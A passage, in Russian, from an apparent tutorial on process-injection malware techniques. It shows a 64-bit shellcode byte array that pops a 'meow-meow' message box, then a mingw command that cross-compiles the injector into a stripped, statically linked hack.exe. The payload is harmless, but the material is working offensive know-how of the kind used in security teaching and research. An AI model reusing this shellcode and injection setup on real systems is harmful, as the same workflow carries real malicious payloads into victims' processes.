 ```cpp

}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демо

Компилируем наш пример:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![injection 5](./images/36/2022-01-18_22-38.png){width="80%"}    
